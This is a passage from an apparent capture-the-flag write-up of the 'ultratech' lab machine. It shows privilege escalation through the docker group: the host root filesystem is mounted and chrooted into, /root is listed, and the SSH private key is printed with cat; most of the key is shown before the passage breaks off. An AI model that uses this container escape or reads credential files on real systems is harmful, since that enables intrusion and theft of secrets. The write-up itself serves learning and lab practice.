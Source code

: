 ```
r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt bash
groups: cannot find name for group ID 11
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@78c7562da81f:/# 
```

* We are now the `root` user.
* Let's check the contents of the `root` directory.

```
root@78c7562da81f:/# ls -la /root
total 40
drwx------  6 root root 4096 Mar 22  2019 .
drwxr-xr-x 23 root root 4096 Mar 19  2019 ..
-rw-------  1 root root  844 Mar 22  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwx------  2 root root 4096 Mar 22  2019 .cache
drwx------  3 root root 4096 Mar 22  2019 .emacs.d
drwx------  3 root root 4096 Mar 22  2019 .gnupg
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-------  1 root root    0 Mar 22  2019 .python_history
drwx------  2 root root 4096 Mar 22  2019 .ssh
-rw-rw-rw-  1 root root  193 Mar 22  2019 private.txt
```

* The private key is has to be inside the `.ssh` directory.
* Let's verify the fact.

```
root@78c7562da81f:/# ls -la /root/.ssh        
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
```

* We can now `cat` out the private key.

```
root@78c7562da81f:/# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAuDSna2F3pO8vMOPJ4l2PwpLFqMpy1SWYaaREhio64iM65HSm
sIOfoEC+vvs9SRxy8yNBQ2bx2kLYqoZpDJOuTC4Y7VIb+3xeLjhmvtNQGofffkQA
jSMMlh1MG14fOInXKTRQF8hPBWKB38BPdlNgm7dR5PUGFWni15ucYgCGq1Utc5PP
NZVxika+pr/U0Ux4620MzJW899lDG6orIoJo739fmMyrQUjKRnp8xXBv/YezoF8D
hQaP7omtbyo0dczKGkeAVCe6ARh8woiVd2zz5SHDoeZLe1ln4KSbIL3EiMQMzOpc
jNn7oD+rqmh/ygoXL3yFRAowi+LFdkkS0gqgmwIDAQABAoIBACbTwm5Z7xQu7m2J
tiYmvoSu10cK1UWkVQn/fAojoKHF90XsaK5QMDdhLlOnNXXRr1Ecn0cLzfLJoE3h
YwcpodWg6dQsOIW740Yu0Ulr1TiiZzOANfWJ679Akag7IK2UMGwZAMDikfV6nBGD
wbwZOwXXkEWIeC3PUedMf5wQrFI0mG+mRwWFd06xl6FioC9gIpV4RaZT92nbGfoM
BWr8KszHw0t7Cp3CT2OBzL2XoMg/NWFU0iBEBg8n8fk67Y59m49xED7VgupK5Ad1
5neOFdep8rydYbFpVLw8sv96GN5tb/i5KQPC1uO64YuC5ZOyKE30jX4gjAC8rafg
o1macDECgYEA4fTHFz1uRohrRkZiTGzEp9VUPNonMyKYHi2FaSTU1Vmp6A0vbBWW
tnuyiubefzK5DyDEf2YdhEE7PJbMBjnCWQJCtOaSCz/RZ7ET9pAMvo4MvTFs3I97
eDM3HWDdrmrK1hTaOTmvbV8DM9sNqgJVsH24ztLBWRRU4gOsP4a76s0CgYEA0LK/
/kh/lkReyAurcu7F00fIn1hdTvqa8/wUYq5efHoZg8pba2j7Z8g9GVqKtMnFA0w6
t1KmELIf55zwFh3i5MmneUJo6gYSXx2AqvWsFtddLljAVKpbLBl6szq4wVejoDye
lEdFfTHlYaN2ieZADsbgAKs27/q/ZgNqZVI+CQcCgYAO3sYPcHqGZ8nviQhFEU9r
4C04B/9WbStnqQVDoynilJEK9XsueMk/Xyqj24e/BT6KkVR9MeI1ZvmYBjCNJFX2
96AeOaJY3S1RzqSKsHY2QDD0boFEjqjIg05YP5y3Ms4AgsTNyU8TOpKCYiMnEhpD
kDKOYe5Zh24Cpc07LQnG7QKBgCZ1WjYUzBY34TOCGwUiBSiLKOhcU02TluxxPpx0
v4q2wW7s4m3nubSFTOUYL0ljiT+zU3qm611WRdTbsc6RkVdR5d/NoiHGHqqSeDyI
6z6GT3CUAFVZ01VMGLVgk91lNgz4PszaWW7ZvAiDI/wDhzhx46Ob6ZLNpWm6JWgo
```